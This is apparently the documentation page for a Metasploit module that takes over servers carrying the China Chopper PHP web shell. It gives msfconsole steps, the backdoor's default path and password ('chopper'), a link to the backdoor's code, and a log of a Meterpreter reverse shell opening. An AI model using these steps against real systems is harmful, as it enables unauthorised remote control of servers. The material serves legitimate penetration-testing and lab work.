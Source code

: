 China Chopper Caidao PHP Backdoor or simply [Chinese Caidao](https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html) is a webshell manager coded in PHP.

## Vulnerable Application

Here is the [PHP code](https://github.com/rapid7/metasploit-framework/files/430643/caidao.zip) of the backdoor that you can use and save it as caidao.php.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/caidao_php_backdoor_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.103:80 - The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/caidao.php`, which is the common filename of the backdoor.
  
  **PASSWORD**
  
  PASSWORD by default is `chopper`, which is the password of the backdoor.

## Demonstration

```
msf exploit(caidao_php_backdoor_exec) > exploit

[*] Started reverse handler on 192.168.1.108:4444 
[*] Sending stage (33068 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.108:4444 -> 192.168.1.103:42349) at 2015-11-02 09:05:54 +0000

meterpreter > sysinfo 
Computer    : kali
OS          : Linux kali 3.14-kali1-686-pae #1 SMP Debian 3.14.5-1kali1 (2014-06-07) i686
Meterpreter : php/php
```

